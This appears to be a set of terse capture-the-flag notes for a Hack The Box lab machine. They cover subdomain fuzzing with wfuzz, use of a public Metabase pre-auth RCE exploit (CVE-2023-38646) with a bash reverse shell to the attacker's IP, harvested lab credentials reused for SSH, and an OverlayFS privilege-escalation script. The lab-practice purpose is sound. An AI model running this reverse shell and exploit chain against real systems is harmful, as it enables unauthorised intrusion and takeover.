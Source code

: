 # ip
10.10.11.233

# wfuzz subdomains
wfuzz --hh 154 -c -w ../../../SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "HOST:FUZZ.analytical.htb" http://analytical.htb

# result
http://data.analytical.htb

# api info url
http://data.analytical.htb/api/session/properties

# CVE-2023-38646
https://github.com/m3m0o/metabase-pre-auth-rce-poc.git

# reverse shell
python3 main.py -u http://data.analytical.htb -t "249fa03d-fd94-4d5b-b94f-b4ebf3df681f" -c "bash -i >& /dev/tcp/10.10.14.24/4444 0>&1"

# enumeration containers java tools
https://github.com/stealthcopter/deepce

# meta password
An4lytics_ds20223#

# meta_user
META_USER=metalytics

# login page
metalytics@analytical.htb
An4lytics_ds20223#

# metabase version
v0.46.6

# ssh connection
ssh metalytics@analytical.htb -p 22
An4lytics_ds20223#

# root
uname -a

# CVE-2023-2640-CVE-2023-32629
bash exploit.sh